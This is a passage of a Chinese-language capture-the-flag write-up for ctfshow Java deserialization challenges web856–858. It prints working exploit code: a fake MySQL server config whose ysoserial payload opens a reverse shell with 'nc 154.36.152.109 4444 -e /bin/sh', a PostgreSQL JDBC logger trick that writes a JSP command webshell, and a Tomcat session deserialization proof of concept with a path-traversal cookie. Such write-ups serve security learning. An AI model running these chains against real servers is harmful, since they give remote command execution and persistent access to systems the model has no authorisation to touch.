        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);
        System.out.println(payload);
    }
}
```

其中有个坑点就是需要用 linux 去编译，而不是 mac

## web856

给出了源码

```java
package com.ctfshow.entity;
 
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.util.Objects;
 
public class Connection implements Serializable {
 
    private static final long serialVersionUID = 2807147458202078901L;
 
    private String driver;
 
    private String schema;
    private String host;
    private int port;
    private User user;
    private String database;
 
    public String getDriver() {
        return driver;
    }
 
    public void setDriver(String driver) {
        this.driver = driver;
    }
 
    public String getSchema() {
        return schema;
    }
 
    public void setSchema(String schema) {
        this.schema = schema;
    }
 
    public void setPort(int port) {
        this.port = port;
    }
 
    public String getHost() {
        return host;
    }
 
    public void setHost(String host) {
        this.host = host;
    }
 
 
    public User getUser() {
        return user;
    }
 
    public void setUser(User user) {
        this.user = user;
    }
 
    public String getDatabase() {
        return database;
    }
 
    public void setDatabase(String database) {
        this.database = database;
    }
 
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        ObjectInputStream.GetField gf = in.readFields();
        String host = (String) gf.get("host", "127.0.0.1");
        int port = (int) gf.get("port",3306);
        User user = (User) gf.get("user",new User("root","root"));
        String database = (String) gf.get("database", "ctfshow");
        String schema = (String) gf.get("schema", "jdbc:mysql");
        DriverManager.getConnection( schema+"://"+host+":"+port+"/?"+database+"&user="+user.getUsername());
    }
 
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof Connection)) return false;
        Connection that = (Connection) o;
        return Objects.equals(host, that.host) && Objects.equals(port, that.port) && Objects.equals(user, that.user) && Objects.equals(database, that.database);
    }
 
    @Override
    public int hashCode() {
        return Objects.hash(host, port, user, database);
    }
}
```

`Connection#readObject`中直接进行链接，典型的 jdbc 打 Mysql 

https://github.com/fnmsd/MySQL_Fake_Server 修改 config.json 如下

```json
{
  "config":{
    "ysoserialPath":"/root/expJar/ysoserial-all.jar",
    "javaBinPath":"java",
    "fileOutputDir":"./fileOutput/",
    "displayFileContentOnScreen":true,
    "saveToFile":true
  },
  "fileread":{
    "win_ini":"c:\\windows\\win.ini",
    "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
    "win":"c:\\windows\\",
    "linux_passwd":"/etc/passwd",
    "linux_hosts":"/etc/hosts",
    "index_php":"index.php",
    "ssrf":"https://www.baidu.com/",
    "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
  },
  "yso":{
    "baozongwi":["CommonsCollections4","nc 154.36.152.109 4444 -e /bin/sh"]
  }
}
```

mysql-connector-java 5.1.39，无所谓，直接打

```java
package com.ctfshow.entity;

import java.io.*;
import java.lang.reflect.Field;

public class web856 {
    public static void main(String[] args) throws Exception {
        Connection connection = new Connection();

        setFieldValue(connection,"schema","jdbc:mysql");
        setFieldValue(connection, "host", "154.36.152.109");
        setFieldValue(connection, "port", 3307);
        setFieldValue(connection, "user", new User("baozongwi", "123456"));
        setFieldValue(connection,"database","detectCustomCollations=true&autoDeserialize=true");

        byte[] data = serialize(connection);
        String base64 = java.util.Base64.getEncoder().encodeToString(data);
        System.out.println(base64);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

需要注意两个细节，本地包名和远程包名一致，由于我是 python3.11 所以我还需要做一个脚本的修复，只需要在前面的 import 头修改如下

```python
import asyncio
import types
if not hasattr(asyncio, 'coroutine'):
    asyncio.coroutine = types.coroutine
if not hasattr(asyncio, 'ensure_future'):
    asyncio.ensure_future = asyncio.create_task
import logging
import signal
import random
signal.signal(signal.SIGINT, signal.SIG_DFL)
```

## web857

```java
package com.ctfshow.entity;
 
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.util.Objects;
 
public class Connection implements Serializable {
 
    private static final long serialVersionUID = 2807147458202078901L;
 
    private String driver;
 
    private String schema;
    private String host;
    private int port;
    private User user;
    private String database;
 
    public String getDriver() {
        return driver;
    }
 
    public void setDriver(String driver) {
        this.driver = driver;
    }
 
    public String getSchema() {
        return schema;
    }
 
    public void setSchema(String schema) {
        this.schema = schema;
    }
 
    public void setPort(int port) {
        this.port = port;
    }
 
    public String getHost() {
        return host;
    }
 
    public void setHost(String host) {
        this.host = host;
    }
 
 
    public User getUser() {
        return user;
    }
 
    public void setUser(User user) {
        this.user = user;
    }
 
    public String getDatabase() {
        return database;
    }
 
    public void setDatabase(String database) {
        this.database = database;
    }
 
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, SQLException {
 
        ObjectInputStream.GetField gf = in.readFields();
        String host = (String) gf.get("host", "127.0.0.1");
        String  driver = (String) gf.get("driver","com.mysql.jdbc.Driver");
        int port = (int) gf.get("port",3306);
        User user = (User) gf.get("user",new User("root","root"));
        String database = (String) gf.get("database", "ctfshow");
        String schema = (String) gf.get("schema", "jdbc:mysql");
        Class.forName(driver);
        DriverManager.getConnection( schema+"://"+host+":"+port+"/?"+database+"&user="+user.getUsername());
    }
 
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof Connection)) return false;
        Connection that = (Connection) o;
        return Objects.equals(host, that.host) && Objects.equals(port, that.port) && Objects.equals(user, that.user) && Objects.equals(database, that.database);
    }
 
    @Override
    public int hashCode() {
        return Objects.hash(host, port, user, database);
    }
}
```

postgresql 42.3.1 直接写入 webshell 即可

```java
package com.ctfshow.entity;

import java.io.*;
import java.lang.reflect.Field;

public class web857 {
    public static void main(String[] args) throws Exception {
        Connection connection = new Connection();

        setFieldValue(connection,"driver","org.postgresql.Driver");
        setFieldValue(connection,"schema","jdbc:postgresql");
        setFieldValue(connection, "host", "154.36.152.109");
        setFieldValue(connection, "port", 3307);
        setFieldValue(connection, "user", new User("baozongwi", "123456"));
        setFieldValue(connection,"database","password=123456&loggerLevel=debug&loggerFile=../webapps/ROOT/b.jsp&<%Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>");


        byte[] data = serialize(connection);
        String base64 = java.util.Base64.getEncoder().encodeToString(data);
        System.out.println(base64);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

链接之后就getshell了，写入的shell是无回显的，所以直接反弹shell即可

## web858



Tomcat session反序列化漏洞

```java
package com.ctfshow.entity;
 
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
 
public class User implements Serializable {
    private static final long serialVersionUID = -3254536114659397781L;
    private String username;
    private String password;
 
    public String getUsername() {
        return username;
    }
 
    public void setUsername(String username) {
        this.username = username;
    }
 
    public String getPassword() {
        return password;
    }
 
    public void setPassword(String password) {
        this.password = password;
    }
 
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.username);
    }
 
 
}
```

可以直接命令执行，而且也是可直接反序列化的，poc如下

```java
package com.ctfshow.entity;

import java.io.*;
import java.lang.reflect.Field;

public class web858 {
    public static void main(String[] args) throws Exception{
        User user = new User();
        setFieldValue(user,"username","cp /flag /usr/local/tomcat/webapps/ROOT/flag.txt");

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("aaa.session"));
        objectOutputStream.writeObject(user);
        objectOutputStream.close();
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```

上传得到路径 /usr/local/tomcat/webapps/ROOT/WEB-INF/upload/aaa.session，触发然后获得 flag

```http
GET / HTTP/1.1
Host: 2edf9384-f7ab-4594-b86f-5ebac387d328.challenge.ctf.show
Cookie: JSESSIONID=../../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/upload/aaa
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
```

> https://hoylindo.github.io/2023/12/19/CTFSHOW-Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-wp/
>
> https://evo1ution.cn/2023/08/26/ctfshow-web4/
>
> https://forum.butian.net/share/1339
